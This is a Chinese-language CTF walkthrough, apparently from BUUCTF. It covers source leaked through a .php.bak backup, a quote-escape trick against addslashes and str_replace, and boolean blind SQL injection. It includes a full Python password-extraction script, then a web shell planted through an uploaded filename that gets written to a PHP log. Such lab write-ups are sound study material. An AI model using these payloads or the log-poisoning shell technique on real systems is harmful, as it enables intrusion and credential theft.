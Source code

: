 # 知识点：

# 1. .bak源码泄露

# 2. 布尔盲注

# 3. 文件上传

# 4. 利用文件名记录到日志文件，使日志文件变成shell文件

## 5. php开启short_open_tag=on，时，可以使用<? ?>代替<?php ?>



# 1.扫描文件后台，发现robots.txt文件

robots.txt文件提示：*.php.bak



# 2.得到image.php文内容

```javascript
<﻿?php
include "config.php";

$id=isset($_GET["id"])?$_GET["id"]:"1";
$path=isset($_GET["path"])?$_GET["path"]:"";

$id=addslashes($id);
$path=addslashes($path);

$id=str_replace(array("\\0","%00","\\'","'"),"",$id);
$path=str_replace(array("\\0","%00","\\'","'"),"",$path);

$result=mysqli_query($con,"select * from images where id='{$id}' or path='{$path}'");
$row=mysqli_fetch_array($result,MYSQLI_ASSOC);

$path="./" . $row["path"];
header("Content-Type: image/jpeg");
readfile($path);
```



# 3.可以尝试注入，但是过滤了单引号

此时可以利用该addslashes和str_replace来造成单引号逃逸

![](images/AF8C31D40CD94A91B999871BDCC367ADclipboard.png)

单id=\\0，时，经过addslashes时被转义成了\\0

然后再经过str_replace的替换，替换了\0只剩下\，\到达id时将单引号转义，从而造成单引号逃逸。



此时sql语句为：

```javascript
select * from admin1 where id='\' or username='or 1=1;#'
```



但是没有回显，推测需要盲注



# 4. 尝试时间盲注没有反应，可能存在过滤。后面发现是布尔盲注

```javascript
?id=\\0&path=or+id=if(ascii(substr((select+username+from+users),1,1))
>1,1,0)%23 
```



![](images/3B503A2B57BF4106A80E02281F1F2F80clipboard.png)



```javascript
?id=\\0&path=or+id=if(ascii(substr((select+username+from+users),1,1))
>150,1,0)%23 
```



![](images/2CBAE5F31D6E4825B9A5AF99206631E9clipboard.png)

当查询结果为真时返回第一张图片，当为假时返回为空



# 5.构造exp

```javascript
import requests
import time
name=''
for j in range(1,21):
    # 可回显字符
    l = 32
    h = 127
    # 二分查找发，当l和h相等时，查找到中间，表示查找完，退出
    while abs(l-h)>1:
        i=int((l+h)/2)
        url="http://5b29503f-6ad9-44ab-8b01-5e72b51fe433.node3.buuoj.cn/image.php?id=\\0'&path= or ascii(substr((select password from users),"+str(j)+",1))>"+str(i)+"%23"
        r = requests.get(url)
        # 每次发包间隔0.005秒
        time.sleep(0.005)
        print(url)
        if r.status_code=='429':
            print('to fast')
        # 查找返回值为空，l=(l+h)/2,表示需要查找的值大于i，下次需要从i以上查找
        if not 'Content-Length' in r.headers:
            l = i
        else:
        #不为空 h=(l+h)/2，表示需要查找的值小于i，下次需要从i以下查找
            h = i
    name += chr(h)
print(name)
```



得到密码为：

![](images/41DFE639F488482EADF7AF893DA984B6clipboard.png)



# 6. 用户名为admin，登陆发现存在文件上传界面

![](images/11A20B3DA7AF473187C28B7D8FE92CB0clipboard.png)



上传文件之后，会给出日志文件的路径

![](images/DB22273929AF4A188DDEA8749DF3A8EDclipboard.png)

且日志文件为php文件，会限制上传文件的文件名。



# 7.可以尝试将文件名写为一句话马，构造shell

![](images/CAD240578BAE4786A9641BFF151FAB05clipboard.png)

发现会检测上传的文件的文件名，不能含有php



# 8.在一些特殊情况下<? ?>短标签也是可以执行的

当：short_open_tag=on时



去了php发现上传成功。去到日志php文件时，发现没有显示文件名，说明刚上传的文件名当作了php文件执行



# 9.蚁剑链接，根目录发现flag

![](images/00349B8FEA6449B4852C90764B6D321Dclipboard.png)












